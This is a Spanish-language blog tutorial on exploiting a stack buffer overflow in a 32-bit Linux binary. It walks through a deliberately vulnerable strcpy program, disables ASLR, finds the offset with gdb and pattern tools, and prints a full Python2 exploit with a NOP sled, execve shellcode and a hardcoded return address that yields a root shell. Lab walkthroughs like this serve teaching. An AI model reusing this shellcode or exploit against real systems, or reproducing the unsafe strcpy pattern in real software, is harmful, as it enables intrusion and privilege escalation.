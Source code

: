 ```yaml
---
title: "Stack-Buffer Overflow [Linux 32 Bit] (Part I)"
layout: single
excerpt: "En este artículo enseñó a crear y usar un exploit de desbordamiento del buffer para ganar un Shell abusando de funciones inseguras como strcpy, getenv etc. También muestro como funciona el binario a bajo nivel, los registros ESP, EIP y como emplear herramientas como gdb o hexedit para editar binarios en hexadecimal."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/154846533-363ec43b-7a02-4a8c-b997-dd499dd09fb0.jpg"
  teaser_home_page: true
  icon: 
categories:
  - Vulnearabilities
tags:
  - EIP
  - Buffer oveflow
  - ESP
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/154846533-363ec43b-7a02-4a8c-b997-dd499dd09fb0.jpg">
</p>

El desbordamiento del búfer o *Buffer Overflow* en Inglés, sucede cuando el programador no hace la suficiente desinfección en el código de un programa. Esto permite sobrepasar el búfer definido y por ello apuntar a ciertos registros para inyectar `shellcode` y derivar a una ejecución de código arbitrario en el sistema.

En este artículo aprovecharemos la función `strcpy` considerada como insegura para sobrepasar un búfer definido y de este modo sobrescribir los registros *ESP*, *EIP* para ganar *RCE*. No tendremos ningún tipo de restricción como ASLR (aleatorización en las direcciones de memoria) o DEP (prevención de ejecución de datos).

Para desactivar ASLR es muy facil, enviamos un 0 como *input* a `/proc/sys/kernel/randomize_va_space` y listo.

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

Para comenzar necesitamos un binario vulnerable a *BoF*, por eso he encontrado este script basico en C que hace uso de `strcpy`.

```c
#include <string.h>
#include <stdio.h>
void main(int argc, char *argv[]) {
        copier(argv[1]);
        printf("Done!\n");
}
int copier(char *str) {
        char buffer[100];
        strcpy(buffer, str);
}
```

Este script no tiene ninguna utilidad, lo que hace básicamente es copiar el primer argumento que le pasemos como *input* y guardarlo en un búfer e imprimir *Done* por pantalla, la vulnerabilidad está en el uso de `strcpy`.

Para la compilación este debe ser en 32 bits, por ello será necesario usar el parámetro `-m32` de `gcc`, de lo contrario os lo creará en 64 bits.

![https://imgur.com/fn2Pckf.png](https://imgur.com/fn2Pckf.png)

![https://imgur.com/pzcdTJT.png](https://imgur.com/pzcdTJT.png)

> Los parámetros utilizados en la compilación son para desactivar algunas restricciones.

Esto nos genera un binario ejecutable, entonces probamos a pasarle una A para verificar que funcione.

![https://imgur.com/UdKB266.png](https://imgur.com/UdKB266.png)

Bien, funciona, ahora vamos a usar `gdb` para monitorear el uso del programa a bajo nivel, le pasamos el parámetro `-q` para la lectura de símbolos y ejecutamos el comando `list` para ver el código.

![https://imgur.com/rRySz6h.png](https://imgur.com/rRySz6h.png)

Haremos un `breakpoint` en la línea 10, ya que la vulnerabilidad no sucede en la función `main`, usamos el comando `break 10`.

![https://imgur.com/P08ILaY.png](https://imgur.com/P08ILaY.png)

Le pasamos 4 bytes como argumento al programa con el comando `run`.

![https://imgur.com/bgUgHwh.png](https://imgur.com/bgUgHwh.png)

Una vez hecho, usamos el comando `info registers` para ver los registros.

![https://imgur.com/25SPQqD.png](https://imgur.com/25SPQqD.png)

Listamos el registro `ESP` con `x/40x $esp`. 

![image](https://user-images.githubusercontent.com/69093629/154841169-af286bb4-b75b-48e7-b64e-cc44f38bd475.jpg)

Como se puede apreciar se ha sobrescrito una direccion de memoria con las 4 As en ANSI.

Ahora bien, ¿que sucede si le pasamos al programa mas 100 As?, vamos a comprobarlo.

![https://imgur.com/Jig6VcD.png](https://imgur.com/Jig6VcD.png)

Se ha producido un desbordamiento del búfer y el binario ha crasheado.

Me he creado un pequeño script en Python que imprima por pantalla mas de 100 As y lo he exportando como BoF.

```python
#!/usr/bin/python3
print("A"*116)
```
![https://imgur.com/ql9LNNA.png](https://imgur.com/ql9LNNA.png)

Le pasamos las As y miramos el registro ESP.

![image (2)](https://user-images.githubusercontent.com/69093629/154843836-0299b369-0d73-4f69-9dbd-ed282d6a0113.jpg)

Como veis están todas las A que le hemos pasado al binario, esto ha sobrescrito hasta la dirección de retorno, vamos a modificar el `retturn address` con `hexedit`, ejecutamos `hexedit` + nombre del binario.

![https://imgur.com/yrbDTpc.png](https://imgur.com/yrbDTpc.png)

Y cambiamos los últimos valores.

![https://imgur.com/olJtCYE.png](https://imgur.com/olJtCYE.png)

Ahora volvemos a ver el registro ESP.

![image (3)](https://user-images.githubusercontent.com/69093629/154845769-4705cb24-ded4-4929-a108-cd7a7e1bfdf4.jpg)

La dirección de retorno ha cambiado, pero está en `little endian`, es decir al revés.

Ahora vamos a calcular el `offset`, es decir las A que tenemos que introducir antes de que el programa corrompa. Para ello hay una herramienta llamada `pattern_create` la cual te crea una cadena especial para luego computar el `offset` con `pattern_offset`.

Le pasé los bytes en los que corrompe el programa.

![https://imgur.com/6u3tOVD.png](https://imgur.com/6u3tOVD.png)

Una vez la cadena creada se la pasamos al programa como argumento.

![https://imgur.com/6szLUpb.png](https://imgur.com/6szLUpb.png) 

La dirección que reporta la copiamos y la pegamos en `pattern_offset`.

![https://imgur.com/Rgoo3Rw.png](https://imgur.com/Rgoo3Rw.png)

Ahí esta, el `offset` son 112 bytes. Ahora haremos uso de NOPS para rellenar los bytes faltantes antes del `shellcode` y llevar el flujo del programa sin problemas.

Necesitamos un `shellcode` para ganar acceso con un Shell, para ello usé el siguiente de 32 bytes.

```bash
\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80
```

Y me he creado un pequeño exploit en Python2 con el siguiente código.

```python
#!/usr/bin/python2

nops = '\x90' * 64
shellcode = (
'\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2' +
'\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89' +
'\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
)
padding = 'A' * (112 - 64 - 32)
eip = "\xb0\xd3\xff\xff"
print nops + shellcode + padding + eip
```

Lo que hace es generar 64 bytes de NOPS `x90` y guardarlos en la variable NOPS, después defino otra variable `shellcode` con el `shellcode`, valga la redundancia, y en la variable `padding` hago los cálculos restando los 112 bytes del `offset`, menos los 64 de los NOPS y los 32 del `shellcode` y creo la cadena de A's del número restante. En la dirección EIP introducimos una del trineo de NOPS en `little endian` para evitar errores, ya que esta estará apuntando a la direccion de memoria de la instrucción a ejecutar. Y finalmente quedaría algo así.

`\x90\x90.. → \x31\xc0\x89.. → AAAA.. → \xb0\xd3\xff\xff`

Si miramos el resultado en hexadecimal con `hexedit` veremos algo así.

![https://imgur.com/0YAugr1.png](https://imgur.com/0YAugr1.png)

Exporto el exploit como `exp`.

![https://imgur.com/cPzxbeO.png](https://imgur.com/cPzxbeO.png)

Y le hacemos un `cat` al archivo exportado.

![https://imgur.com/KaYXfl8.png](https://imgur.com/KaYXfl8.png)

Y hemos ganado un Shell como `root` en el sistema.

